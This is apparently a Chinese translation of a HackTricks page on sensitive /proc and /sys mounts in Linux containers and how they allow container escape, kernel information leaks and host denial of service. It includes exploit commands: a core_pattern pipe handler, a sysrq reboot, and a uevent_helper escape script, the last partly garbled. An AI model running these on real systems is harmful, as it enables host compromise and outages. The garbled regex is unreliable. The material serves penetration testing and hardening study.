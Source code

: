 # 敏感挂载点

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

未经适当命名空间隔离的`/proc`和`/sys`的暴露会引入重大安全风险，包括扩大攻击面和信息泄露。这些目录包含敏感文件，如果配置不当或被未经授权的用户访问，可能导致容器逃逸、主机修改或提供有助于进一步攻击的信息。例如，不正确地挂载`-v /proc:/host/proc`可能绕过AppArmor保护，因为其基于路径的特性，使`/host/proc`无保护。

**您可以在** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)** **中找到每个潜在漏洞的更多详细信息。

## procfs漏洞

### `/proc/sys`

此目录允许通过`sysctl(2)`修改内核变量，并包含几个相关子目录：

#### **`/proc/sys/kernel/core_pattern`**

* 在[core(5)](https://man7.org/linux/man-pages/man5/core.5.html)中描述。
* 允许定义在生成核心文件时执行的程序，前128个字节作为参数。如果文件以管道`|`开头，可能导致代码执行。
*   **测试和利用示例**：

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # 测试写入权限
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # 设置自定义处理程序
sleep 5 && ./crash & # 触发处理程序
```

#### **`/proc/sys/kernel/modprobe`**

* 在[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)中详细描述。
* 包含内核模块加载器的路径，用于加载内核模块。
*   **检查访问权限示例**：

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # 检查对modprobe的访问权限
```

#### **`/proc/sys/vm/panic_on_oom`**

* 在[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)中引用。
* 一个全局标志，控制当发生OOM条件时内核是崩溃还是调用OOM killer。

#### **`/proc/sys/fs`**

* 根据[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)，包含有关文件系统的选项和信息。
* 写入权限可能导致对主机的各种拒绝服务攻击。

#### **`/proc/sys/fs/binfmt_misc`**

* 允许根据其魔术数字为非本机二进制格式注册解释器。
* 如果`/proc/sys/fs/binfmt_misc/register`可写，可能导致提权或获取root shell访问。
* 相关利用和解释：
* [通过binfmt\_misc实现的简易rootkit](https://github.com/toffan/binfmt\_misc)
* 深入教程：[视频链接](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### `/proc`中的其他内容

#### **`/proc/config.gz`**

* 如果启用了`CONFIG_IKCONFIG_PROC`，可能会泄露内核配置。
* 对攻击者有用，以识别运行中内核中的漏洞。

#### **`/proc/sysrq-trigger`**

* 允许调用Sysrq命令，可能导致立即系统重启或其他关键操作。
*   **重启主机示例**：

```bash
echo b > /proc/sysrq-trigger # 重启主机
```

#### **`/proc/kmsg`**

* 显示内核环形缓冲区消息。
* 可帮助内核利用、地址泄漏和提供敏感系统信息。

#### **`/proc/kallsyms`**

* 列出内核导出的符号及其地址。
* 对于内核利用开发至关重要，特别是用于克服KASLR。
* 地址信息受`kptr_restrict`设置为`1`或`2`的限制。
* 详细信息请参阅[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)。

#### **`/proc/[pid]/mem`**

* 与内核内存设备`/dev/mem`交互。
* 在历史上容易受到提权攻击的影响。
* 更多信息请参阅[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)。

#### **`/proc/kcore`**

* 以ELF核心格式表示系统的物理内存。
* 读取可能泄露主机系统和其他容器的内存内容。
* 大文件大小可能导致读取问题或软件崩溃。
* 详细用法请参阅[2019年转储/proc/kcore](https://schlafwandler.github.io/posts/dumping-/proc/kcore/)。

#### **`/proc/kmem`**

* `/dev/kmem`的替代接口，表示内核虚拟内存。
* 允许读取和写入，因此可以直接修改内核内存。

#### **`/proc/mem`**

* `/dev/mem`的替代接口，表示物理内存。
* 允许读取和写入，修改所有内存需要解析虚拟到物理地址。

#### **`/proc/sched_debug`**

* 返回进程调度信息，绕过PID命名空间保护。
* 显示进程名称、ID和cgroup标识符。

#### **`/proc/[pid]/mountinfo`**

* 提供有关进程挂载命名空间中挂载点的信息。
* 显示容器`rootfs`或镜像的位置。

### `/sys`中的漏洞

#### **`/sys/kernel/uevent_helper`**

* 用于处理内核设备`uevents`。
* 写入`/sys/kernel/uevent_helper`可以在`uevent`触发时执行任意脚本。
*   **利用示例**： %%%bash

#### 创建一个有效载荷

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### 从容器的OverlayFS挂载中找到主机路径

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

#### 将uevent\_helper设置为恶意助手

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

#### 触发一个uevent

echo change > /sys/class/mem/null/uevent

#### 读取输出

cat /output %%%
#### **`/sys/class/thermal`**

* 控制温度设置，可能导致 DoS 攻击或物理损坏。

#### **`/sys/kernel/vmcoreinfo`**

* 泄露内核地址，可能危及 KASLR。

#### **`/sys/kernel/security`**

* 包含 `securityfs` 接口，允许配置类似 AppArmor 的 Linux 安全模块。
* 访问可能使容器禁用其 MAC 系统。

#### **`/sys/firmware/efi/vars` 和 `/sys/firmware/efi/efivars`**

* 提供与 NVRAM 中的 EFI 变量交互的接口。
* 配置错误或利用可能导致笔记本变砖或主机无法启动。

#### **`/sys/kernel/debug`**

* `debugfs` 为内核提供了一个“无规则”调试接口。
* 由于其不受限制的特性，存在安全问题的历史。

### 参考资料

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的 **公司广告** 或 **下载 PDF 版本的 HackTricks**，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家 [**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
